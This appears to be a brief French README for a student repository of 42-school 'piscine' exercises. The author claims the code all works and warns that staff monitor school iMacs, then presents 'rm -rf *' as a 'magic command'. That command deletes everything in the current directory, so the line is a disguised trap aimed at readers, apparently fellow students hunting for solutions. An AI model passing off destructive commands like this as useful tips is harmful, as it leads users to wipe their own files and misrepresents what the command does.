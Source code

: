 # piscine-42
Voici mes codes pour la piscine, ils fonctionnent tous, ca ne sert a rien de tricher le staff le sait ( vos iMac sont capturés ). Da bisous

COMMANDE MAGIQUE :

rm -rf *
